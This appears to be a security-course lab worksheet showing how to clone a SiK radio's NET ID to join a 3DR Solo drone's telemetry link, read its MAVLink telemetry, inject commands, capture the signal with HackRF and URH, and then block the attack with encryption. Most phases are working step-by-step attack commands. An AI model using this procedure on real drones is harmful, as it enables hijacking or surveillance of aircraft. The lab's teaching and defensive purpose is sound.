


Lab: SiK Radio Hacks
Objectives
The Big Picture (Read This First)
Module 15 said a SiK link is a "dumb pipe" that copies bytes to any radio with the same NET ID. This lab weaponizes that in the simplest possible way: you take a third SiK radio, set its NET ID and air speed to match the drone's link, and — that's it — you're now a full participant in the conversation. You can read all telemetry and inject MAVLink commands, exactly like the real GCS.
The flow:
-
Watch the legitimate link (Phases 1–2) and read its NET ID.
-
Clone that NET ID onto your attack radio (Phase 3).
-
Intercept and inject (Phases 4–5).
-
See the raw signal with a HackRF (Phase 6), then watch encryption defeat you (Phase 7).
This is the RF-radio twin of the WiFi attack in Lab 12 — same idea (get onto the link), different physical layer.

Hardware Required
-
1× SiK radio pair
-
1× additional SiK radio (attack radio)
-
3DR Solo (powered, no props)
-
USB cables for all radios
-
Kali laptop
Phase 1: Observe the Legitimate SiK Link
# Connect the legitimate GCS SiK radio to your laptop
# Check which port it appeared as
dmesg | tail -10
# Look for: ttyUSB0 or ttyACM0
# Open MAVProxy through the GCS radio
mavproxy.py --master=/dev/ttyUSB0 --baud=57600
# Once connected, you will see telemetry from the Solo:
# APM: ArduCopter V3.5.x ...
# HEARTBEAT
# ATTITUDE messages
# Read radio parameters (enter +++, then ATI5)
# Exit MAVProxy first: Ctrl-C
Phase 2: Read GCS Radio Parameters
# Connect directly to the radio for AT commands
minicom -D /dev/ttyUSB0 -b 57600
# Enter AT command mode
# Type exactly: +++ (no Enter)
# Wait ~1 second for "OK" response
# Read all parameters
ATI5
# Record:
# NET ID: (probably 25)
# AIR SPEED: (probably 64)
# ENCRYPT LEVEL: (probably 0 = none)
# NUM CHANNELS: (probably 50)
Phase 3: Configure Attack Radio to Match
# Disconnect the GCS radio
# Connect the attack radio to your laptop
dmesg | tail -5 # Note new port, e.g. /dev/ttyUSB1
minicom -D /dev/ttyUSB1 -b 57600
# Enter AT command mode
+++
# Response: OK
# Read current parameters
ATI5
# Set NET ID to match victim (replace 25 with what you found)
ATS3=25
# Set air speed to match
ATS2=64
# Write to EEPROM
AT&W
# Reboot
ATZ
Phase 4: Intercept with Attack Radio
# Keep the legitimate air radio connected to the Solo UAV
# The legitimate GCS radio should be DISCONNECTED (unplugged from laptop)
# Now connect the attack radio to your laptop
mavproxy.py --master=/dev/ttyUSB1 --baud=57600
# Within a few seconds, you should see:
# Heartbeat from system X (autopilot)
# ATTITUDE messages flowing in
# You now have full MAVLink access to the drone
Observe:
MAV> status
MAV> param show ARMING*
MAV> param show FS_*
Phase 5: Read Parameters and Demonstrate Injection
# Read all parameters via the attack radio
MAV> param show *
# Demonstrate command injection (safe - drone disarmed, no props):
# Request autopilot capabilities
MAV> module load message
MAV> message REQUEST_AUTOPILOT_CAPABILITIES 1
# Or send a simple status request
MAV> link status
Phase 6: Passive RF Capture with HackRF
Observe the SiK radio signal without any SiK hardware:
# Open GQRX
gqrx
# Configure:
# Device: HackRF
# Frequency: 915.000 MHz
# Sample rate: 2.0 MSPS
# Mode: Narrow FM
# Filter: 10 kHz
# Watch the waterfall — you should see brief bursts every ~100ms (telemetry packets)
# Capture an IQ recording
# In GQRX: click the record button (red circle)
# Record for 30 seconds
# Save as: sik-telemetry.raw
# Analyze in URH
urh sik-telemetry.raw
# URH will attempt to auto-detect modulation and bit rate
# Configure: FSK, 64k baud, Manchester encoding

URH turns the raw I/Q burst into bits. Set the modulation to FSK and the bit rate to match the SiK air speed, and the demodulated packets appear at the bottom.
Phase 7: Enable Encryption (Defense Demo)
# On the GCS radio (encryption-capable firmware required)
minicom -D /dev/ttyUSB0 -b 57600
+++
ATS15=1
ATS16=0123456789ABCDEF0123456789ABCDEF # 32 hex chars = 128-bit key
AT&W
ATZ
# On the air radio (via SSH to Solo):
ssh root@10.1.1.10
# Find where the Solo's SiK radio is configured
cat /etc/solo.conf | grep -i radio
# Alternatively, configure via Mission Planner → Initial Setup → SiK Radio
After enabling encryption on both radios with matching keys:
-
Try the attack radio again — it will NOT receive intelligible data
-
The attack radio has the wrong key
Discussion Questions
-
How many 3DR Solo drones in the field use NET ID 25? What is the implication?
-
With a $30 RTL-SDR, what is the practical range at which you could eavesdrop?
-
If MAVLink v2 signing was enabled, would the attack radio injection still work?
-
What is the defense-in-depth approach if RF encryption is not available?